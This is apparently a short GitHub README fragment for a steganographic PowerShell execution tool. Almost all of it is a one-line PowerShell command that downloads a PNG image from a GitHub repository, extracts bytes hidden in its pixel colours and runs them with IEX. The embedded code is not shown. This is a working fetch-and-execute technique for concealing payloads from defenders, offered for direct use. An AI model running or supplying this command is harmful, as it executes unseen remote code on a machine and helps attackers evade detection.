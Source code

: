 Oneliner to execute in Powershell

sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://github.com/void010/purple/raw/main/Steg/ps_code_execute/Invoke-PSImage-master/best_img.png"));$o=a Byte[] 19200;(0..79)|%{foreach($x in(0..79)){$p=$g.GetPixel($x,$_);$o[($_*80+$x)*3]=$p.B;$o[($_*80+$x)*3+1]=$p.G;$o[($_*80+$x)*3+2]=$p.R}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..16973]))
